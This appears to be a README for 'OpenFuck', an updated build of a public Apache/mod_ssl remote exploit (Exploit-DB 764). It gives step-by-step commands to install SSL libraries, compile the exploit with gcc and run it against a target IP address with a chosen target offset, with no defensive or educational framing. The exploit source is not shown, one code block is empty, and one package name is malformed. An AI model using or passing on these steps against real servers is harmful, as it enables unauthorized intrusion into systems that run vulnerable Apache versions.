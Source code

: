 # OpenFuck
This is a tool to exploit apache server

## Usage
This Exploit (https://www.exploit-db.com/exploits/764/) is outdated. Here you can take updated

1.Download 764.c
~~~

~~~
2.Install libssl-dev & libssl1.0dev
~~~
sudo apt install libssl-dev
sudo apt install libssl1.0 dev
~~~

3.Now Compile
~~~
gcc -o OpenFuck 764.c -lcrypto
~~~
4.Run the exploit
~~~
./OpenFuck
~~~
5.See which service you want to exploit. For example if you need to exploit Red Hat Linux, using apache version 1.3.20.

For Example
~~~
./OpenFuck 0*6b [IP Address] -c 50
~~~
